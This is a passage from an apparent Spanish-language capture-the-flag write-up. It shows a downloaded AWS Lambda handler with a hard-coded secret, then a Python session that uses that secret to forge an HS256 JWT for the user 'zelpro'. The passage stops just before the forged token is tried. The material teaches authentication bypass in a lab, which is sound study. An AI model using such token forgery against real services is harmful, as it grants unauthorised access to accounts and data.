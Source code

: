 ```bash wrap=false
    },
    "Tags": {}
}
```

## Explotación

### Abusing JWT

Si descargamos el código vemos lo siguiente:

```python wrap=false
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
```

Podríamos probar a usar ese **secret** para ver si es el que usa la aplicación a la hora de autenticarse con `JWT`:

```bash wrap=false
❯ python                                               
Python 3.13.7 (main, Aug 20 2025, 22:17:40) [GCC 14.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> secret = 'RrXCv`mrNe!K!4+5`wYq'
>>> jwt.encode({"username":"zelpro"}, secret, algorithm='HS256')
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InplbHBybyJ9.izB_ziwx3QBUqi5HwJXg7nePROsba6I-tmmZJaSjvZQ'
```

Si probamos ahora a entrar:
